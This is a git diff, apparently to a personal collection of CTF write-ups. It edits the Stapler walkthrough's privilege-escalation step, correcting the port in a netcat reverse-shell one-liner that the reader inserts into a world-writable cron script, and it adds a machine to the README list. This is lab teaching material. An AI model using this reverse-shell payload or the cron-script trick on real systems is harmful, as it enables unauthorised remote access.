

Updated stapler root method with SSH

Changed region(s): [[0.0, 0.3422, 0.9432, 0.9644], [0.0, 0.0, 1.0, 0.3111], [0.9736, 0.7778, 1.0, 0.8089]]

diff --git a/stapler.md b/stapler.md
@@ -74,7 +74,7 @@ By g0tmi1k
 * According to ``, a noteworthy piece of information is found in the section on `World Writable Files`, where the file `/usr/local/sbin/cron-logrotate.sh` has rwx permissions for all.
 * Opening up the `.sh` file shows us only a line of comment code, telling "Simon that he needs to do something about this". This reinforces the fact that we are looking at the right file - the person who put in this message for Simon probably realised what a malicious person can do with this.
 ![](/screenshots/stapler/cronLogRotateScript.jpg)
-* Insert `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.15 4444 >/tmp/f` into `cron-logrotate.sh`, and run `nc -v -l -p 1234` on our Kali VM.
+* Insert `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.15 1234 >/tmp/f` into `cron-logrotate.sh`, and run `nc -v -l -p 1234` on our Kali VM.
 * Note: The one-liner that was inserted is taken from a [cheat sheet on reverse shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).
 * Note2: I thought of trying something simpler for the one-liner, but the `nc` running is from the `netcat-openbsd` package, which required something different:
 ![](/screenshots/stapler/netcatVariant.jpg)

diff --git a/README.md b/README.md
@@ -12,3 +12,4 @@ This repository contains a list of CTFs/vulnerable virtual machines which I have
 9. DC: 6 (DCAU)
 10. Stapler: 1 (g0tmi1k)
 11. LazySysAdmin: 1 (Togie Mcdogie)
+12. digitalworld.local: DEVELOPMENT (Donavan)
